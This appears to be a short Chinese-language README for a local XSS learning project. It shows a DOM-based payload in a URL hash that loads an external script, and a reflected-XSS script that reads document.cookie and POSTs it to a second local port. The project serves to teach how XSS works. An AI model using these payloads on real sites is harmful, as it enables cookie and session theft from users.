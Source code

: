 # xss_learn
xss学习

### dom 型

> dom 型由浏览器执行，与后端无关，需要前端规避。

访问 `domTest.html`，加上 hash 值：
```
// 可以通过本地 http-server 启动一个服务
http://127.0.0.1:8080/domTest.html#document.write("<script/src=//askybig.github.io/ImageStore/xss.js></script>")
```

### 反射型

> 反射型属于后端控制，对输入负责。

分别启动 3000 和 3001端口，在 3000页面输入url：
```
测试数据</h><script>(function () {var str = document.cookie;console.log('str', str);var request=new XMLHttpRequest();request.onreadystatechange=function(){if(request.readyState===4){if(request.status===200){console.log("success");return request}else{console.log("fail");return request}}else{}};request.open("POST","http://localhost:3001/xssattack");request.send(str);})()</script>
```
可以看到3000 端口的 Cookie 被 3001 拿到了。

![反射型](https://media.giphy.com/media/vFKqnCdLPNOKc/giphy.gif)
